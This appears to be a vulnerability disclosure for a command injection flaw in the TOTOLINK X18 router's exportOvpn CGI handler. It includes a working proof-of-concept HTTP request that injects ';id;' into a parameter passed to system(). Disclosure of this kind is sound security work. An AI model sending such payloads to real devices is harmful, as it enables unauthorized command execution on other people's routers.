



#  TOTOLINK_X18 Command Injection

verdor name: TOTOLINK

model: X18 AX1800

version: V9.1.0cu.2053_20230309

firmware: https://www.totolink.tw/support_view/X18



**Description**

The `user` parameter in the `main` function is vulnerable to command injection.

**Analyse**

When the `exportOvpn` function is called with `type=user`, the user input is retrieved via `getNthValueSafe` without any filtering. It is then concatenated using `snprintf` and passed to `system` for execution, leading to a command injection vulnerability.



**poc**

```
GET /cgi-bin/cstecgi.cgi?exportOvpn&type=user&123=;id; HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

